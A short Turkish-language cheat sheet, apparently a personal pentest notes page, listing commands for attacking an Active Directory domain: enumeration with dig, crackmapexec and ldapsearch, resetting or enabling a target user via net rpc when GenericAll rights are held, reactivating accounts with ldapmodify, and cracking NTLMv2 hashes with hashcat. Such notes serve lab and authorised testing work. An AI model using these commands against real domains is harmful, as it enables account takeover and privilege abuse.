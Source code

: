 ```yaml
---
layout: page
title: "Linux"
permalink: /linux/ad-ortamina-giris/
---
```


```bash
dig any @ip hostname
```

```bash
crackmapexec smb IP-ADRESI -u Test1 -d test.local -p "Passwd123"
```

```bash
ldapsearch -x -H ldap://IP -D "username@hostname" -w "Passwd123" -b "" -s base
```


GenericAll Yetkisi varsa
```bash
net rpc password TARGETUSERNAME 'YeniParola123..' -U 'test.local/ElindekiKullanıcıAdı%ElindekiKullanıcınınŞifresi' -S dc.test.local

veya!!!!

net rpc user enable TARGETUSERNAME -U 'test.local/ElindekiKullanıcıAdı%ElindekiKullanıcınınŞifresi' -S dc.test.local
```

```bash
ldapmodify -x -H ldap://dc.test.local -D 'MevcutKullanıcı@test.local' -w 'Passwd123' <<EOF
dn: HEDEFLENEN KULLANICI DN
changetype: modify
replace: userAccountControl
userAccountControl: 512
EOF
 ile kullancııy etkilenştirir 514 inaktif demek.
```


ntlmv2 -> hashcat -m 5600 
